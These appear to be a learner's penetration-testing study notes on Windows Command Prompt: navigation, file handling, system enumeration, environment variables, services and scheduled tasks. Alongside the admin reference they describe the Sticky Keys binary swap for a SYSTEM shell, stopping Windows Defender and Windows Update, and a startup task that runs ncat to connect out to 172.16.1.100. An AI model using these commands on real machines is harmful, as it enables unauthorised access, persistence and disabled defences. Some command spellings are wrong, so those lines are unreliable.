

### Command Prompt Basics

- <span style="color:rgb(0, 176, 80)">cmd.exe </span> 
-  [cmd.exe](https://https//learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmd) or CMD, is the default command line interpreter for the Windows operating system. Originally based on the [COMMAND.COM](https://www.techopedia.com/definition/1360/commandcom) interpreter in DOS

#### Local access

 direct physical access
 - Using the Windows key + `r` to bring up the run prompt, and then typing in `cmd`. OR
- Accessing the executable from the drive path `C:\Windows\System32\cmd.exe`.
- just search cmd 

#### Remote Access
- access through network 
- We can do this through the use of `telnet`(insecure and not recommended), Secure Shell (`SSH`), `PsExec`, `WinRM`, `RDP`, or other protocols as needed.




in the recovery mode we can go to the command prompt
For example, on this Windows 7 machine, we can use the recovery Command Prompt to tamper with the filesystem. Specifically, replacing the `Sticky Keys` (`sethc.exe`) binary with another copy of `cmd.exe`
Once the machine is rebooted, we can press `Shift` five times on the Windows login screen to invoke `Sticky Keys`. Since the executable has been overwritten, what we get instead is another Command Prompt - this time with `NT AUTHORITY\SYSTEM` permissions

---
---

### Getting Help

```powershell
#list all the built in commands
help

#display the information about a paraticular command
help <command name>

#some time we dont have help details for a command we can use
ipconfig /?
```

[CMD documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands)

[ss64](https://ss64.com/nt/) Is a handy quick reference for anything command-line related, including cmd, PowerShell, Bash, and more.

#### Basic Tips & Tricks

```powershell
#clear the screan
cls

#view previously ran commands (arrow key, page up and down)
# doskey is an MS-DOS utility that keeps a history of command 
doskey /history 
```

 [Doskey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/doskey)
 this contain more data in fetching the history (arrow keys, function keys, page up & down key)

`ctrl + c` to exit the running process

---
---

### System Navigation

- `dir` → List contents of the current directory.
- `cd <absolute path>` → Jump directly to a full path.
- `cd <relative path>` → Navigate based on current location.
- `cd ..` → Move one level up.
- `cd ..\..\` → Move two levels up, and so on.
- `tree` will print all the dir with subdir
- `tree /F` will print dir, subdir and also files

```powershell
#this . represent the current directory
cd .\Pictures

#moving up the directory tree
C:\Users\htb\Pictures> cd ..\..\..\
C:\>
```

#### interesting windows directories

|**Name**|**Location**|**Description (simple words)**|**Example Use**|
|---|---|---|---|
|🗑️ `%SYSTEMROOT%\Temp`|`C:\Windows\Temp`|System-wide **temporary files folder**. All users can read, write, and run here.|⚡ Attacker can drop payloads/tools even with low privileges.|
|🧑‍💻 `%TEMP%`|`C:\Users\<user>\AppData\Local\Temp`|**User-specific temp folder**, private to that user.|🎯 If attacker hijacks a user account, they can store files here.|
|🌍 `%PUBLIC%`|`C:\Users\Public`|**Shared folder** accessible by everyone. Less monitored than Windows Temp.|📦 Attacker can hide or share files without quick detection.|
|💽 `%ProgramFiles%`|`C:\Program Files`|Holds **64-bit installed applications**.|🔎 Recon: attacker checks what software is installed.|
|💾 `%ProgramFiles(x86)%`|`C:\Program Files (x86)`|Holds **32-bit installed applications**.|🔍 Recon: attacker identifies 32-bit apps for weaknesses.|

---
---

## Working with Directories and Files - CMD

|**Command**|**Description (simple words)**|**Important Options / Notes**|**Example**|
|---|---|---|---|
|`mkdir <dir-name>`|Create a new directory (folder).|None.|`mkdir testfolder`|
|`rmdir <dir-name>`|Delete an **empty** directory.|`/S` → delete directory **even if it’s not empty** (asks for confirmation).|`rmdir oldfolder` `rmdir /S myfolder`|
|`move <source> <destination>`|Move a file or directory to a new location.|Works for files & folders.|`move example C:\Users\htb\Desktop`|
|`xcopy <source> <destination> [options]`|Extended copy (old but useful). Copies files + folders. Can handle **hidden** and **read-only** files.|**Common options:** `/E` → copy subfolders (including empty). `/K` → keep file attributes. `/H` → include hidden/system files. `/C` → continue even if errors. `/B` → backup mode. `/L` → list what would be copied (no action).|`xcopy C:\Users\htb\Documents\example C:\Users\htb\Desktop\ /E`|
|`robocopy <source> <destination> [options]`|Robust file copy (modern, replaces xcopy). Can copy big directories, preserve timestamps, attributes, ACLs.|**Important options:** `/MIR` → mirror source to destination (**⚠️ deletes extras in destination!**). `/A-:SH` → remove system & hidden attributes. `/E` → copy all subfolders (including empty). `/L` → list only (simulate). `/B` → backup mode (needs privilege).|`robocopy C:\Users\htb\Desktop C:\Users\htb\Documents\ /MIR`|

#### Files

| **Command**                           | **Description (simple words)**                                 | **Important Options / Notes**                                                                   | **Example**                                                      |
| ------------------------------------- | -------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| `dir`                                 | List all files and folders in a directory.                     | `/S` → include subfolders `/B` → bare format                                                    | `dir C:\Users\htb\Documents`                                     |
| `tree /F`                             | Display all folders **and files** in a tree structure.         | `/F` → include files, not just folders                                                          | `tree /F C:\Users\htb\Documents`                                 |
| `more <file>`                         | View the contents of a file **one screen at a time**.          | `/S` → compress multiple blank lines to single line                                             | `more secrets.txt` `more /S secrets.txt`                         |
| `more`                                | display more                                                   | Send output of a command to `more` to **scroll large outputs**.                                 | `ipconfig /all`                                                  |
| `type <file>`                         | Display the contents of one or multiple text files at once.    | Can combine multiple files (`type file1 file2`) Does **not lock files**                         | `type secrets.txt` `type file1.txt file2.txt`                    |
| `openfiles`                           | Shows files that are **currently open** on local or remote PC. | Requires **administrator privileges**. Can disconnect users from files. Not enabled by default. | `openfiles /query`                                               |
| `type <file>`                         | Display the contents of a file                                 | Can show multiple files at once, safe (no lock)                                                 | `type bio.txt`                                                   |
| `type file1.txt >> file2.txt`         | Append contents of one file to another                         | `>>` appends, `>` overwrites                                                                    | `type passwords.txt >> secrets.txt`                              |
| `echo <text> > file.txt`              | Create a new file or overwrite an existing file with text      | `>` creates/overwrites, `>>` appends                                                            | `echo Hello World > demo.txt` `echo More text >> demo.txt`       |
| `fsutil file createNew <file> <size>` | Create a new file of specific size                             | Requires admin                                                                                  | `fsutil file createNew for-sure.txt 222`                         |
| `ren <old> <new>`                     | Rename a file                                                  | Can also use `rename`                                                                           | `ren demo.txt superdemo.txt`                                     |
| `<command> > file.txt`                | Redirect output of a command to a file                         | `>` overwrites, creates if not exists                                                           | `ipconfig /all > details.txt`                                    |
| `<command> >> file.txt`               | Append output of a command to a file                           | Does not overwrite                                                                              | `echo hello >> details.txt`                                      |
| `<command> < file.txt`                | Send contents of a file as input to a command                  | Input redirection                                                                               | `find /i "see" < test.txt`                                       |
| `                                     | `                                                              | Pipe output of one command into another                                                         | Useful for filtering large outputs                               |
| `<command1> & <command2>`             | Run two commands sequentially regardless of success            | Use `&` for simple sequencing                                                                   | `ping 8.8.8.8 & type test.txt`                                   |
| `<command1> && <command2>`            | Run second command **only if first succeeds**                  | State-dependent execution                                                                       | `cd Backup && echo 'worked' > yes.txt`                           |
| `del <file>`                          | Delete a file                                                  | Use `/F` for read-only, `/S` for subdirectories, `/Q` quiet, `/A:` for attributes               | `del file-1` `del /A:R *`                                        |
| `erase <file>`                        | Delete a file (alias of del)                                   | Same as `del`                                                                                   | `erase file-3 file-5`                                            |
| `dir /A:R`                            | Show read-only files                                           | Attributes filtering                                                                            | `dir /A:R`                                                       |
| `dir /A:H`                            | Show hidden files                                              | Attributes filtering                                                                            | `dir /A:H`                                                       |
| `copy <source> <dest>`                | Copy files to another location                                 | `/V` verifies copy                                                                              | `copy secrets.txt C:\Users\student\Downloads\not-secrets.txt /V` |
| `move <source> <dest>`                | Move or rename files/directories                               | Can rename while moving                                                                         | `move bio.txt C:\Users\student\Downloads`                        |

---
---

## Gathering System information


#### types of information we can get

`its a partial list`


`systeminfo` command all this info

|**Field**|**Example Value**|**Meaning / Why Useful**|
|---|---|---|
|🏷️ **Host Name**|DESKTOP-IJDVLOG|Computer’s name on the network – useful for identifying systems in domains or during troubleshooting.|
|💿 **OS Name**|Windows 10 Home SL|Operating System edition – important for compatibility and feature availability.|
|🔢 **OS Version**|10.0.19045 Build 19045|Exact Windows version/build – needed for patching, exploits, and troubleshooting.|
|🏭 **OS Manufacturer**|Microsoft Corporation|Always Microsoft, confirms legit OS vendor.|
|⚙️ **OS Configuration**|Standalone Workstation|Whether joined to a domain, workstation, or server role.|
|🧩 **OS Build Type**|Multiprocessor Free|Build type: "Free" = normal build, "Checked" = debugging.|
|👤 **Registered Owner**|[example@examile.com](mailto:example@examile.com)|User who installed/activated Windows (can be blank or generic).|
|🏢 **Registered Organization**|(empty)|Organization field (mostly empty for personal PCs, used in enterprise).|
|🆔 **Product ID**|00XX7-35890-1XX79-AAXXX|Windows license identifier (not full key). Useful for activation checks.|
|📅 **Original Install Date**|17-08-2025|When Windows was first installed – helps in system age tracking.|
|⏰ **System Boot Time**|20-08-2025 11:53|Last reboot time – useful in uptime/availability checks.|
|🖥️ **System Manufacturer**|Acer|Hardware vendor – useful for drivers, warranty, inventory.|
|🖥️ **System Model**|Aspire AXXX-XXX|Exact model of machine – helps in identifying hardware specs.|
|🧮 **System Type**|x64-based PC|Architecture – tells if OS supports 32/64-bit software.|
|⚡ **Processor(s)**|Intel i5, 991 MHz|CPU details – useful for performance and compatibility.|
|🧬 **BIOS Version**|Insyde Corp V1.13|BIOS vendor & version – important for firmware updates and virtualization.|
|📂 **Windows Directory**|C:\Windows|Where Windows system files are stored.|
|📂 **System Directory**|C:\Windows\System32|Core OS libraries, drivers, and executables location.|
|💽 **Boot Device**|\Device\HarddiskVolume2|Partition/device Windows boots from.|
|🌍 **System Locale**|en-gb|Default language/region setting.|
|⌨️ **Input Locale**|00004009 (English-US)|Keyboard input language/format.|
|🕒 **Time Zone**|UTC+05:30 (India)|Local timezone – used in logging, auditing, syncing.|
|🧠 **Total Physical Memory**|7970 MB|Installed RAM – important for performance.|
|📉 **Available Physical Memory**|2916 MB|Free usable RAM – low values = performance issues.|
|📀 **Virtual Memory (Max/Available/In Use)**|9,890 MB / 3,631 MB / 6,259 MB|Swap space (RAM + Pagefile) details. Used when physical RAM is low.|
|📄 **Page File Location(s)**|C:\pagefile.sys|File used as extra memory.|
|🌐 **Domain**|WORKGROUP|Whether PC is in a domain or just local.|
|🔑 **Logon Server**|\DESKTOP-IJDVLOG|Server that authenticated login (for domain or local machine).|
|🔥 **Hotfix(s)**|10 installed (KB numbers)|Installed Windows updates – useful for patch management & vulnerability checks.|
|🌐 **Network Card(s)**|WiFi, Ethernet, Bluetooth|Network adapters & their status/IPs – useful for connectivity troubleshooting.|
|☁️ **Hyper-V Requirements**|Virtualization: Yes|Tells if PC can run Hyper-V/VMs (hardware virtualization support).|

if the command is been blocked then we should know how to get other command to get the info

`hostname` will give the hostname [hostname](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/hostname)
`ver` version number of the os [ver](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/ver)
`ipconfig` all current TCP/IP network data [ipconfig](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/ipconfig)
`arp /all` list all the address which is connected to local  
	`arp -a` → shows the ARP cache (IP ↔ MAC mappings).
`whoami` display the user, group, and privilege information for the user that is currently logged in [Whoami](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)

`whoami /priv` what the current user have the permissions
`whoami /groups` will give the info of the groups that the user we loged in has
`whoami /all` all of the information at once through the use of the `/all` parameter.


After investigating our current compromised user account, we need to branch out a bit and see if we can get access to other accounts. In most environments, machines on a network are domain-joined

`net user` display a list of all users on a host [Net User](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865\(v=ws.11\))
`net group` display all group details present in the host to run this this should be under any domain [Net Group](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\))

`net localgroup` can be run in any host to show us the groups it contains

`net share` will display all the **shared folders (or resources)** on your Windows machine — basically what your computer is making available for others on the **network** to access [Net Share](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh750728\(v=ws.11\))

`net view` [Net View](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh875576\(v=ws.11\)) will display to us any shared resources the host you are issuing the command against knows of. This includes domain resources, shares, printers, and more.

---
---

## Finding Files and Directories

- `where <file-name>` find files which should be in the env path 
- `where \R C:\Users\student\ bio.txt` this we are specifying the path where to look
- `where \R C:\Users\student\ *.csv` we are using wildcards to search

#### Find
will help to find through text, content or event in the cmd output

- `find "password" "C:\Users\student\not-passwords.txt"` search password word in the not-password.txt file
- `/V` not present
- `/N` display name
- `/I` ignore case-sensitivity 

- `findstr` for the specific pattern

#### File evaluation and sorting commands

| **Command**            | **Description (Simple Words)**                                                                                | **Useful Modifiers**                                               | **Example**                                             | **Emoji**                      |
| ---------------------- | ------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------ |
| `comp file1 file2`     | Compares two files **byte by byte** to check if they are the same. Good for scripts, executables, or configs. | `/A` → Show differences in ASCII `/L` → Show line numbers          | `comp file1.txt file2.txt /A`                           | 🔍📑                           |
| `fc file1 file2`       | Compares **two text files line by line**. Easier to read than `comp`, shows which **lines** differ.           | `/N` → Show line numbers `/C` → Ignore case `/B` → Binary compare  | `fc passwords.txt modded.txt /N`                        | 📄📊                           |
| `sort file.txt`        | Sorts lines in a file (alphabetical or numerical order). Can output results to a new file.                    | `/O <outfile>` → Save sorted result `/unique` → Removes duplicates | `sort names.txt /O sorted.txt` `sort names.txt /unique` | 🗂️🔠                          |
| `echo text > file.txt` | (Helper command) Creates/overwrites a file with given text. Useful for creating sample files to test with.    | `>>` instead of `>` → Append instead of overwrite                  | `echo hello > test.txt`                                 | ✍️📂                           |
| `type file.txt`        | Displays the contents of a file in the terminal. Often used before piping into `sort` or comparisons.         | Works with `<`, `                                                  | ` operators                                             | `type file.txt` `type file.txt |

---
---

## Environment Variables

- this are the shortcut to store important values to our system or app need
- they usually wrapp in `%` signs

```powershell
#in cmd
>echo %WINDIR%
C:\Windows

#in powershell
>echo $env:WINDIR
```

- it fallows rules like a variable in the languages and they are not case sensitive 

Variable Scope

- **Global scope** 
	- available to whole system like `%WINDIR%` `PATH%`
- **Local Scope**
	- only available in a specific context. once you close session or script the variable is gone
		- `set MYVAR=HELLO`  we can see `echo %MYVAR%` 
		- when we close the variable its gone

Environment variables in Windows are divided into **three scopes**:

| **Scope**               | **Description**                                                                                                     | **Who Can Access**                     | **Where Stored**                                                                       |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------- | -------------------------------------- | -------------------------------------------------------------------------------------- |
| **System (Machine)** 🌍 | - Defined by Windows OS. - Accessible **globally by all users**. - Needed for system functions.                     | Local Admin or Domain Admin            | `HKEY_LOCAL_MACHINE\SYSTEM\<br>`CurrentControlSet\Control\Session Manager\Environment` |
| **User** 👤             | - Defined by the **active user**. - Only available to that user.                                                    | Active User, Local Admin, Domain Admin | `HKEY_CURRENT_USER\Environment`                                                        |
| **Process** ⚡           | - Temporary, exists **only while a process is running**. - Inherits from System & User scopes (and parent process). | Active User or process                 | Stored in **Process Memory** (not registry)                                            |

#### Using Set and Echo to view variables

```powershell

> set DCIP=172.16.5.2
> echo %DCIP%
172.16.5.2


> setx DCIP 172.16.5.2
> echo %DCIP%

>echo %PATH%
C:\Users\htb\Desktop
```

- [set](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1) are used for onetime when we close the session then its gon
-  [setx](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/setx)  used to set permanent changes `setx`, we also have some additional functionality added in, such as being able to create and tweak variables across computers in the domain as well as our local machine. this will saved in registry. and we need to open new session to load  

**Editing Variables**
```powershell
> setx DCIP 172.1.1.1
> echo DCIP
172.1.1.1

# remove a env variable
> setx DCIP ""
```

#### Important Win ENV

|🌐 **Variable Name**|📖 **Description**|🖥️ **Example Value**|
|---|---|---|
|⚡ **%PATH%**|List of directories where Windows looks for executable programs. Helps us run commands without typing full paths.|`C:\Windows\System32;C:\Program Files\Java\bin`|
|🏷️ **%OS%**|Shows the operating system name/version on the host. Useful for quick OS identification.|`Windows_NT`|
|🗂️ **%SYSTEMROOT%**|Points to the Windows system directory. Contains critical OS files, binaries, configs.|`C:\Windows`|
|🔑 **%LOGONSERVER%**|Displays the authentication server used when the user logged in. Helps detect **domain vs. workgroup**.|`\\DC01` (domain controller) or `\\MACHINE-NAME`|
|👤 **%USERPROFILE%**|Home directory of the logged-in user. Contains personal files, documents, configs.|`C:\Users\Chandan`|
|📦 **%ProgramFiles%**|Default install location for 64-bit applications.|`C:\Program Files`|
|📦 **%ProgramFiles(x86)%**|Default install location for 32-bit apps on 64-bit systems. Helps identify system architecture.|`C:\Program Files (x86)`|

[list](https://ss64.com/nt/syntax-variables.html)

---
---

## Managing Serivices

#### service contorller
- [SC](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599\(v=ws.11\))  Windows executable utility that allows us to query, modify, and manage host services locally and over the network
- We have other tools, like Windows Management Instrumentation (`WMIC`) and `Tasklist` that can also query and manage services for local and remote hosts.
- `sc` this will give us the help menu of the sc

#### query services

```powershell
#give all services details
>sc query type= service

#check windows defender is running
>sc query windefend
>
# if we have enough permission then we can start or stop the services
#runes only if we have the permission
>sc stop windefend

#start a service
>sc start windefend
```

[docs of sc](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config)

All changes made with this command are reflected in the Windows registry as well as the database for Service Control Manager (`SCM`).

Windows Update in **Windows 10 and above** is not handled by **just one service**. Instead, it relies on **multiple Windows services working together** to download, manage, and install updates.
Two of the **main services** are

|⚙️ **Service Name**|🖥️ **Display Name**|📖 **Purpose**|
|---|---|---|
|`wuauserv`|Windows Update Service|Responsible for **detecting, downloading, and installing updates** from Microsoft’s servers. Without this, Windows Update won’t even start.|
|`bits`|Background Intelligent Transfer Service|Handles the **actual downloading** of updates in the background. It’s smart because it uses **idle bandwidth** so your internet isn’t completely blocked by updates.|
- 🕵️ `wuauserv` → Says _“Hey, a new update is available!”_
- 📦 `bits` → Quietly downloads the update files in the background.
- 🔄 Once files are downloaded, `wuauserv` + other services handle **installing & rebooting**.

```powershell
>sc query wuauserv
>sc query bits #its running
>sc stop bits

# know we can do the configuration 
>sc config wuauser start= disabled
>sc config bits start= disabled

# if we try to start service then it wont work
```

**Note:** To revert everything back to normal, you can set `start= auto` to make sure that the services can be restarted and function appropriately.

other tools to do the same thing
**using Tasklist**
[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist) is a command line tool that gives us a list of currently running processes on a local or remote host. However, we can utilize the `/svc` parameter to provide a list of services running under each process on the system.

`tasklist /svc` we can see the PID and what services are hosted under each process

**using net stat**
[Net start](https://ss64.com/nt/net-service.html) is a very simple command that will allow us to quickly list all of the current running services on a system. In addition to `net start`, there is also `net stop`, `net pause`, and `net continue`
`net start` will list all the services that are active

**using WMIC**
we have [WMIC](https://ss64.com/nt/wmic.html). The Windows Management Instrumentation Command (`WMIC`) allows us to retrieve a vast range of information from our local host or host(s) across the network.

`wmic service list brief` list all the services details <span style="color:rgb(0, 176, 80)">this one is good</span> 

**Note:** It is important to be aware that the `WMIC` command-line utility is currently deprecated as of the current Windows version. As such, it is advised against relying upon using the utility in most situations. You can find further information regarding this change by following this [link](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic).

---
---

## Working With Scheduled Tasks

Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen

we will go over exactly how we can utilize the `schtasks` command to its fullest extent

`schtasks /query /v /FO LIST` displays all tasks in list format with detailed info

|Action|Parameter|Description|
|---|---|---|
|Query|_(none)_|Lists scheduled tasks (local or remote).|
|`/fo`|Format|Output in `TABLE`, `LIST`, or `CSV`.|
|`/v`|Verbose|Show advanced properties.|
|`/nh`|No Header|Remove column headers (works with `TABLE`/`CSV`).|
|`/s`|Remote Host|Specify remote host (`\\host`).|
|`/u`|User|Run with a different user’s permissions.|
|`/p`|Password|Password for the above user. (Works with `/s`).|

#### creating a new schedule task
```powershell


schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

# this will runs ncat.exe at system startup
```

|Action|Parameter|Description|
|---|---|---|
|Create|_(none)_|Create a new scheduled task.|
|`/sc`|Schedule|Type: `MINUTE`, `HOURLY`, `DAILY`, `ONSTART`, etc.|
|`/tn`|Task Name|Unique name for the task.|
|`/tr`|Task Run|Command/script to execute.|
|`/s`|Host|Remote host (like Query).|
|`/u`|User|User account to run under.|
|`/p`|Password|Password of that user.|
|`/mo`|Modifier|Adjust frequency (e.g., every 5 hours).|
|`/rl`|Run Level|Privileges: `LIMITED` (default) or `HIGHEST`.|
|`/z`|Delete on completion|Removes task after it runs once.|

#### modifing or changing existing task
```powershell

schtask /change /tn "my secret task" /rn administrator /rp "Password"

#changes task to run as administrator with given password 
```

|Action|Parameter|Description|
|---|---|---|
|Change|_(none)_|Modify existing task.|
|`/tn`|Task Name|Which task to modify.|
|`/tr`|New Action|Change program/script to run.|
|`/enable`|Enable Task||
|`/disable`|Disable Task||

#### Delete a task

```powershell
schtask /delete /tn "my secret task"
```

|Action|Parameter|Description|
|---|---|---|
|Delete|_(none)_|Remove scheduled task.|
|`/tn`|Task Name|Task to delete.|
|`/s`|Remote Host|Delete on remote system.|
|`/u`|User|Run as specific user.|
|`/p`|Password|Password for that user.|
|`/f`|Force|Suppresses confirmation prompt.|

**Run Immediately** – Use `/run` to test if a task works.

---
---

## CMD vs Powershell

-  [PowerShell](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.2)
- 